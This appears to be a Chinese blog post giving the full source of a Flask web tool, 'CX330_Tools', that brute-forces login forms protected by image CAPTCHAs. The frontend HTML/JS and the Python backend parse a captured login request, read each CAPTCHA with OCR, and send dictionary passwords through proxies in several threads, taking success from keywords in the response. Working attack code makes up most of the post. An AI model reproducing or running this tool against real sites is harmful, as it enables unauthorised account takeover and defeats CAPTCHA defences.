

# CX330_Tools之验证码爆破1


<!--more-->

## 前言

想要做一个将常用工具集成在一起的Web工具项目，包含验证码爆破、子域名爆破、dnslog、加解密、简单的poc验证等等

GitHub项目地址：https://github.com/CX330Star/CX330_Tools/releases/tag/v1.0

## 目录结构

```toml
-static
	-images
		-loading.gif
	-js
		-jquery.base64.js
		-jquery.min.js
-templates
	-index.html
-upload
	-dict
		-default.txt
		-upload_dict.txt
-app.py
-requirements.txt
```

## 前端

### index.html

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>CX330_Tools</title>
<style>
    .boom{
        background-color: gainsboro;
        float: left;
        width: 100%;
        height: 100%;
    }
    .left {
        float: left;
        width: 50%;
    }
    .right {
        float: right;
        width: 50%;
    }
    .item{
        margin: 10px;
    }
    .item_title{
        font-size: 18px;
        font-weight: bold;
    }
    #send_packet{
        margin-top: 6px;
    }
    #remark{
        font-size: 14px;
    }
    #captcha_link{
        width: 500px;
    }
    #start_boom{
        float: left;
        margin-left: 80%;
        margin-top: 6px;
    }
    #loading{
        float: right;
    }
    h2{
        background-color: palegoldenrod;
    }
</style>
</head>
<body>
    <div>
        <label for="input_proxy">设置代理：</label>
        <input id="input_proxy" type="text" name="input_proxy" value ="127.0.0.1:10808">
        <input id="set_proxy" type="checkbox" onclick="set_proxy(this)">
    </div>
    <div>
        <input id="proxy_test" type="button" onclick="proxy_test()" value="查看当前IP">
        <span id="proxy_ip"></span>
    </div>
    <hr>
    <h2>验证码爆破</h2>
    <hr>
    <div class="boom">
        <div class="left">
            <div class="item">
                <label for="dict" class="item_title">上传字典：</label>
                <hr>
                <form id="upload_form" enctype="multipart/form-data" >
                    <div>
                        <input type="file" id="dict" name="dict" accept=".txt">
                        <input type="button" value="上传" onclick="upload_dict()">
                        <span id="remark">（若无上传将采用系统自带字典）</span>
                    </div>
                </form>
            </div>
            <div class="item">
                <label for="send_packet" class="item_title">分析请求包：</label>
                <hr>
                <label for="is_https">是否为HTTPS：</label><input id="is_https" type="checkbox" onclick="set_HTTPS(this)">
                <br>
                <textarea id="send_packet" name="send_packet" rows="20" cols="100"></textarea>
                <input type="button" onclick="send_packet()" value="确定">
            </div>
            <div class="item">
                <label for="params" class="item_title">请求参数：</label>
                <hr>
                <label for="captcha_link">验证码链接：</label>
                <input id="captcha_link" type="text" name="captcha_link">
                <input type="button" onclick="captcha_test()" value="测试">
                <span id="show_captcha"></span> 
                <br>
                <div id="params"></div>
                <label for="thread_num">线程数：</label>
                <select id="thread_num" onchange="thread_num(this)"><option value="1">1</option><option value="5">5</option><option value="10">10</option><option value="20">20</option><option value="50">50</option></select>
                <br>
                <input id="start_boom" type="button" value="开始爆破" onclick="start_boom()">
                <div id="loading"></div>
            </div>
        </div>
        <div class="right">
            <div class="item">
                <label for="result_boom" class="item_title">爆破结果：</label>
                <hr>
                <textarea id="result_boom" name="result_boom" rows="40" cols="100"></textarea>
            </div>
        </div>
    </div>
</body>
<script typet="text/javascript" src="/static/js/jquery.min.js"></script>
<script type="text/javascript" src="/static/js/jquery.base64.js"></script>
<script typet="text/javascript">
    //初始化参数
    var params=new Object();

    //设置代理
    function set_proxy(e){
        if(e.checked == true){
            var py = $("#input_proxy").val()
        }else{
            var py = ""
        }
        $.ajax({
            url: "http://127.0.0.1:5000/set_proxy",
            type: "GET",
            data: {
                py:py
            }
        })
    }

    //设置HTTPS
    function set_HTTPS(e){
        if(e.checked == true){
            var is_https = true
        }else{
            var is_https = false
        }
        $.ajax({
            url: "http://127.0.0.1:5000/is_https",
            type: "GET",
            data: {
                is_https:is_https
            }
        })
    }

    //查看当前IP
    function proxy_test(){
        $.getJSON("http://127.0.0.1:5000/proxy_test",function(data){
            document.getElementById("proxy_ip").innerHTML = data.origin
        })
    }

    //发送请求包，返回请求参数追加到前端
    function send_packet(){
        var packet = $.base64.encode($("#send_packet").val())
        $.ajax({
            url: "http://127.0.0.1:5000/send_packet",
            type: "GET",
            data: {
                packet:packet
            },
            success: function(data){
                alert("请求头已设置成功！")
                var data = JSON.parse(data)
                $("#params").empty()
                var i = 0
                for(var key in data){
                    i++
                    $(document).ready(function() {
                        params[key] = data[key]
                        $('#params').append('<label for="box'+i+'">'+key+' : </label><input id="box'+i+'" type="text" name="box'+i+'" value="'+data[key]+'" readonly="readonly"><select name="'+key+'" onchange="mark_param(this)"><option value=""></option><option value="to_param">爆破参数</option><option value="captcha">验证码</option></select><br>');
                    })
                }
            }
        })
    }

    //标记参数
    function mark_param(e){
        if(e.value == "to_param"){
            //爆破参数标记
            params[e.name] = "AMD580EEWRQQEQ6FXG9I"
        }
        if(e.value == "captcha"){
            //验证码标记
            params[e.name] = "ME3SDCTPJEMEPAUASQ3K"
        }
    }

    function thread_num(e){
        $.ajax({
            url: "http://127.0.0.1:5000/thread_num",
            type: "GET",
            data: {
                threadNum:e.value
            }
        })
    }

    //上传字典
    function upload_dict(){
        var dict_data = new FormData($('#upload_form')[0]);
        $.ajax({
            url: "/upload_dict",
            type: "POST",
            data: dict_data,
            async: true,
            cashe: false,
            contentType: false,
            processData: false,
            success: function(data){
                alert(data) 
            }, 
            error: function(data){ 
                alert("上传失败！")
            }
        });
    }

    //测试验证码
    function captcha_test(){
        var captcha_link = $.base64.encode($("#captcha_link").val())
        $.ajax({
            url: "http://127.0.0.1:5000/captcha_test",
            type: "GET",
            data: {
                captcha_link:captcha_link
            },
            success: function(data){
                document.getElementById("show_captcha").innerHTML = data
            }
        })
    }

    //开始爆破
    function start_boom(){
        //爆破验证码连接标记
        params["YBZXSHZQ383CGVFC39PN"] = $.base64.encode($("#captcha_link").val())
        $.ajax({
            url: 'http://127.0.0.1:5000/start_boom',
            type: 'POST',
            contentType: 'application/json',
            data: JSON.stringify(params),
            beforeSend:function(){
                $("#loading").html('')
            },
            success: function(data){
                $("#loading").html('')
                alert(data)
            },
            error: function(data){
                $("#loading").html('')
                alert('发生未知错误！')
            }
        })
        alert("字典较大时，爆破时间较长，请耐心等待！\n正在爆破中...")
    }
</script>
</html>
```

### 前端展示

有点简陋...等以后功能多了，学习学习改用vue前后端分离



## 后端

### app.py

```python
from flask import Flask,render_template,request,jsonify
import requests
import json
import base64
import os
import ddddocr
import queue
import fileinput
import threading
import urllib3
from rich.progress import Progress
from colorama import Fore

app = Flask(__name__)

# 初始化
proxies = {}
headers = {}
urls = ''
isUploadDict = False
captcha_link_mark = 'YBZXSHZQ383CGVFC39PN'
boom_params_mark = 'AMD580EEWRQQEQ6FXG9I'
captcha_params_mark = 'ME3SDCTPJEMEPAUASQ3K'
error_params = ['账号','密码','账户','账号','用户','参数']
error_captcha = ['验证码','captcha']
threadNum = 1
hp = 'http://'
isPassword = False
ocr = ddddocr.DdddOcr(show_ad=False)
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# 首页
@app.route('/')
def index():
    return render_template('index.html')

# 设置代理接口
@app.route('/set_proxy', methods=['GET'])
def set_proxy():
    if request.args['py'] != '':
        py = 'http://' + request.args['py']
    else:
        py = request.args['py']
    global proxies
    proxies = {
        'https': py,
        'http': py  
    }
    return 'ok'

# 代理测试接口
@app.route('/proxy_test')
def proxy_test():
    response=requests.get('http://httpbin.org/ip', proxies=proxies, timeout=5, verify=False)
    return jsonify(json.loads(response.text))

# 测试代理
def testProxies():
    response=requests.get('http://httpbin.org/ip', proxies=proxies, timeout=5, verify=False)
    return json.loads(response.text)['origin']

# 获取请求包，初始化请求头和请求路径，返回基本参数
@app.route('/send_packet', methods=['GET'])
def send_packet():
    packet = str(base64.b64decode(request.args['packet']), 'utf8')
    result = analyze_packet(packet)
    global urls
    urls = create_url(result['header']['Host'], result['url'])
    global headers
    if('Cookie' in result['header']):
        result['header'].pop('Cookie')
    if('Content-Length' in result['header']):
        result['header'].pop('Content-Length')
    headers = result['header']
    # json键值对是无序的，传到前端会根据key的首字母进行排序
    # 这里直接返回字符串，再在前端进行数据处理
    return json.dumps(result['param'])

# 分析请求包，返回请求路径，请求头，参数字典
def analyze_packet(packet):
    url = packet.split('\n')[0][5:].split(' HTTP')[0]
    param = {}
    for li in packet.split('\n')[-1].split('&'):
        p = li.split('=')
        param[p[0]] = p[1]
    header = {}
    for li in packet.split('\n')[1:-2]:
        h = li.split(': ')
        header[h[0]] = h[1]
    result = {'url':url, 'param':param, 'header':header}
    return result

# 上传字典
@app.route('/upload_dict', methods=['POST'])
def upload_dict():
    global isUploadDict
    file = request.files['dict']
    file.save(os.path.join('upload/dict', 'upload_dict.txt'))
    isUploadDict = True
    return '字典设置成功！'

# 验证码测试
@app.route('/captcha_test', methods=['GET'])
def captcha_test():
    captcha_link = str(base64.b64decode(request.args['captcha_link']),'utf8')
    return get_captcha(captcha_link)

# 获取验证码
def get_captcha(url,authSession=''):
    if authSession == '':
        authSession = requests.session()
    response =  authSession.get(url, headers=headers, proxies=proxies, timeout=5, verify=False)
    res = ocr.classification(response.content)
    return res

# 判断是否为HTTPS
@app.route('/is_https', methods=['GET'])
def is_https():
    global hp
    if request.args['is_https'] == 'true':
        hp = 'https://'
        return 'https'
    else:
        hp = 'http://'
        return 'http'

def create_url(host,url):
    url = hp + host + url
    return url

# 设置线程数
@app.route('/thread_num', methods=['GET'])
def thread_num():
    global threadNum
    threadNum = int(request.args['threadNum'])
    return request.args['threadNum']

# 接收确定后的参数、开始爆破
@app.route('/start_boom', methods=['POST'])
def start_boom():
    params = request.json
    q = queue.Queue()
    threads = []
    sem=threading.Semaphore(threadNum)
    # 遍历找到验证码连接
    for key in params:
        # 判断该参数是否为验证码连接
        if key == captcha_link_mark:
            captcha_link = str(base64.b64decode(params[key]),'utf8')
    if captcha_link == '':
        print('请填写验证码连接')
    # 删除多余参数验证码连接
    params.pop(key)
    if isUploadDict == False:
        path = 'upload/dict/default.txt'
    else:
        path = 'upload/dict/upload_dict.txt'
    with fileinput.input(files=(path),openhook=fileinput.hook_encoded("utf-8")) as f:
        for li in f:
            li.replace("\n", "")
            q.put(li)
        with Progress() as progress:
            task = progress.add_task('[yellow]爆破IP为:'+testProxies(), total=q.qsize())
            for i in range(q.qsize()):
                sem.acquire()
                authSession = requests.session()
                td = threading.Thread(target=login_boom,args=(authSession,params,q.get(),captcha_link,sem,progress,task))
                threads.append(td)
                td.start()
                # 通过全局变量把返回值带出来进行判断返回
                if isPassword != False:
                    print(Fore.GREEN + '成功参数：' + isPassword)
                    return '成功参数：' + isPassword
            for t in threads:
                t.join()
    return '未能成功爆出密码！'

# 登录爆破
def login_boom(authSession,params,boom_params,captcha_link,sem,progress,task):
    u = urls
    d = {}
    # 遍历设置参数
    for key in params:
        # 判断该参数是否为爆破参数
        if params[key] == boom_params_mark:
            d[key] = boom_params
        # 判断该参数是否为验证码
        elif params[key] == captcha_params_mark:
            d[key] = get_captcha(captcha_link,authSession)
        else:
            d[key] = params[key]
    response = authSession.post(u, data=d, headers=headers, proxies=proxies, timeout=5, verify=False)
    if is_json(response.text):
        response = json.loads(response.text)
        result =  auto_json_result(response,authSession,params,boom_params,captcha_link,sem,progress,task)
    else:
        result =  auto_html_result(response.text,authSession,params,boom_params,captcha_link,sem,progress,task)
    if not progress.finished:
        progress.update(task, advance=1)
    sem.release()
    if result != False:
        global isPassword
        isPassword = result

# 判断str是否为json类型
def is_json(text):
    try:
        json.loads(text)
    except ValueError:
        return False
    return True

# 自动分析html类型返回结果
def auto_html_result(html_str,authSession,params,boom_params,captcha_link,sem,progress,task):
    isRight = True
    if any(x in html_str for x in error_captcha):
        isRight = False
        print(Fore.YELLOW + str(len(html_str)) + '     ' + '验证码错误: ' + boom_params)
        login_boom(authSession,params,boom_params,captcha_link,sem,progress,task)
    # 是否为爆破参数错误
    if any(x in html_str for x in error_params):
        isRight = False
        print(Fore.RED + str(len(html_str)) + '     ' + '爆破参数错误: ' + boom_params)
    if isRight == True:
        return boom_params
    else:
        return isRight

# 自动分析json类型返回结果
def auto_json_result(response,authSession,params,boom_params,captcha_link,sem,progress,task):
    isRight = True
    for key in response:
        # 是否为验证码错误
        if any(x in response[key] for x in error_captcha):
            isRight = False
            print(Fore.YELLOW + response[key] + ': ' + boom_params)
            login_boom(authSession,params,boom_params,captcha_link,sem,progress,task)
        # 是否为爆破参数错误
        if any(x in response[key] for x in error_params):
            isRight = False
            print(Fore.RED + response[key] + ': ' + boom_params)
    if isRight == True:
        return boom_params
    else:
        return isRight

if __name__ == '__main__':
    app.run(debug=True)
```

## 总结

目前仅仅完成了验证码初步爆破的功能，接下来还会慢慢更新，有意思的地方会写成博客

验证码爆破模块待完成如下：

- 异常处理
- 多文件架构
- 爆破结果实时显示
- 返回参数自定义匹配
- 参数加密自定义模块化
- 多人同时使用
- 特殊验证码

